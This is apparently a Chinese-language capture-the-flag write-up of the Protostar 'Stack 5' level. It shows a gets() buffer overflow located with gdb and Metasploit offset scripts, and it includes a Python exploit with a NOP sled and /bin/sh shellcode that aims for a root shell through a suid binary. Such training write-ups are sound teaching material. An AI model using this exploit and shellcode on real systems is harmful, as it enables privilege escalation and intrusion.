 # Stack 5

## （一） 题目：

\#include &lt;stdlib.h&gt;

\#include &lt;unistd.h&gt;

\#include &lt;stdio.h&gt;

\#include &lt;string.h&gt;

int main\(int argc, char \*\*argv\)

{

char buffer\[64\];

gets\(buffer\);

}

## （二）解题过程：

gdb 调试 stack5程序，在ret函数上下断点。

b 16

r

输入aaaaaaaaa

i r

print $esp

print $ebp

查看此时的内存布局 ，找到buff 和 ret的距离就可以计算出需要填充多少字节，恰好覆盖到ret地址，返回地址后面是argc argv

esp    buffer开始         buffer结束（ebp  ret\)   argc argv

esp                    esp+0x10        ebp                 ret                   argc              argv

0xbffffcd0     0xbffffce0      0xbffffd28    0xbffffd2c   0x00000001   0xbffffdd4

![](/png/15.png)

如图所示：构造payload

buff\[0\]+ 0x4c+ 返回地址+ shellcode

exploit

python -c "print 'a'\*76+'\x30\xfc\xff\xbf'+'\x90'\*20+shellcode

import struct

pad = "\x41" \* 76

EIP = struct.pack\("I", 0xbffffd30\)

shellcode = "\x31\xc0\x31\xdb\xb0\x06\xcd\x80\x53\x68/tty\x68/dev\x89\xe3\x31\xc9\x66\xb9\x12\x27\xb0\x05\xcd\x80\x31\xc0\x50\x68//sh\x68/bin\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80"

NOP = "\x90" \* 100

print pad + EIP + NOP + shellcode

![](/png/10.png)

![](/png/16.png)

方法2：快速定位漏洞触发的位置并写出exploit

第一种方法是手工定位，计算填充的字节数和eip返回地址。下面这种 方法借助于定位脚本快速定位。

思路

1）判断是否存在漏洞，先给buffer填充100个a看看是否崩溃。

![](/png/18.png)

显然，出现了熟悉的段错误。通常，我们会调试.coredump的方法找到出错的位置。现在我们用最基础最快速的方法来定位。（调试dump）下一种方法给出。

2）用kali metasploit环境下的pattern\__create.rb脚本来生成要填充的标志性的字符串，再用pattern_\_offset来定位漏洞触发的位置。

![](/png/19.png)

3\)用生成的长度为100的字符串进行定位溢出点

![](/png/20.png)

程序在0x63413563处崩溃。用pattern\_offset.py定位溢出位置，找到距离buffer起始位置的偏移。

![](/png/21.png)

在偏移量76处，程序崩溃。这跟手工定位的位置是一样的。

![](/png/22.png)

4）若想用这个stack5二进制文件获取shell,需要确定这个二进制文件是否具有suid权限。可以用find命令实现。

![](/png/23.png)

小结：就是计算填充缓冲区的大小有两种方法：

第一种：手工 （利用gdb 定位eip地址---buff起始地址\(print $esp查看之后buff起始地址）

第二种：借助于metasploit模块里的脚本定位偏移量。

5）漏洞利用代码编写

技巧：利用NOP空操作模块可以确保漏洞利用代码不会失败。因为我们无法始终指向正确的地址，所以利用空指令来指向他们，直到shellcode入口位置。

76个a + eip\(覆盖为要跳转到的地址,可以是下一条指令的地址\) + NOP+shellcode

用python编写exploit.py

1\)导入struct模块

import struct

2\)填充字符a

pad='a'\*76

3\)接下来是漏洞触发 覆盖eip的地方，把eip地址覆盖成shellcode的入口地址，也可以是下一条要执行的指令的地址。原始eip的地址是0xbffffcbc，下一条指令的地址是0xbffffcbc+4= 0xbffffcc0

EIP = struct.pack\("I", 0xbffffcc0\)

紧跟着的是NOP 和 shellcode

shellcode可以采用

Ref：

[https://xz.aliyun.com/t/3908](https://xz.aliyun.com/t/3908)

[https://0xrick.github.io/binary-exploitation/bof5/](https://0xrick.github.io/binary-exploitation/bof5/)

